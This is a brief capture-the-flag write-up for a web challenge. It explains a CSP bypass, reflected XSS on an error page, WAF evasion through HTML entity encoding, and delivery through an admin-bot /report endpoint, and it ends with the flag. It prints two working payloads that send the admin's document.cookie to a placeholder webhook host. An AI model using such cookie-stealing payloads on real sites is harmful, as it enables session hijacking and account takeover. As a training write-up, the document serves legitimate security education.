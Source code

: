 # Jinxed

### Difficulty
hard

### Challenge Description

Bring down the bot, from the undercity.

# Short Writeup: CSP Bypass, WAF Restriction, and XSS Exploitation

## Challenge Overview
The challenge involved exploiting multiple vulnerabilities in a web application:

1. **CSP Bypass**: A strict CSP (`default-src 'self'`) was misconfigured, allowing bypasses through quirks in resource handling.  
2. **Error Page XSS**: Invalid paths returned `200 OK` with reflective XSS opportunities.  
3. **WAF Restrictions**: A basic WAF blocked specific special characters (`<`, `>`, etc.), requiring creative encoding techniques to craft payloads.  
4. **/report Endpoint**: A vulnerable endpoint (`/report?url=...`) visited attacker-supplied URLs, enabling SSRF and admin-side XSS execution.

## Exploitation Highlights

### 1. WAF Bypass
Encoded payloads like `&#60;` were used to circumvent the WAF restrictions on `<`, `>`, and similar characters.

### 2. XSS Execution
The error page allowed injection of JavaScript via a crafted URL:
```html
<script src="/x/;location.href='<webhook>/'+encodeURI(document.cookie);//"></script>
```
### 3. Flag Retrieval
The XSS payload was sent to the admin via the /report endpoint:
```html
/report?url=http://example.com/x/;location.href='<webhook>/'+encodeURI(document.cookie);
```
This successfully stole the admin's cookie, revealing the flag.


### Flag

inctfj{P3RH4P5_E330RS_W3R3_TH3_W4Y_T0_5UCC33D}

### Author

**k0w4lzk1**